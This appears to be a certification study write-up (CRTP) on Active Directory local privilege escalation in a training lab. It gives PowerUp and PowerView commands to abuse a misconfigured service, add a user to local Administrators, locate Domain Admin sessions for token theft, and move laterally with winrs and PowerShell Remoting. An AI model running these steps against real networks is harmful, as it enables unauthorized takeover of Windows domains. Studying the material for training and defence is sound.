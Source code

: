 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 1)
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

### Scenarios which lead to privilege escalation:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

### Ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

### Tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path (PowerUp)

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```bash
##Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

Let’s use the abuse function for Invoke-ServiceAbuse and add our current domain user to the 
local Administrators group. 
```bash
##Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Invoke-AllChecks_

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative (Find-PSRemotingLocalAdminAccess.ps1)

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```bash
##Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
We can connect to the machine who has the local administrative access by using winrs

```bash
winrs -r:dcorp-adminsrv cmd

##Checking the username and computername in the remote winrs session
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## 4. Identify a machine in the domain where a Domain Admin session is available (PowerView)

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }

Now, we can abuse this using winrs or PowerShell Remoting!

**Abuse using winrs**
![Result](/img/crtp/result7.png){: width="972" height="589" }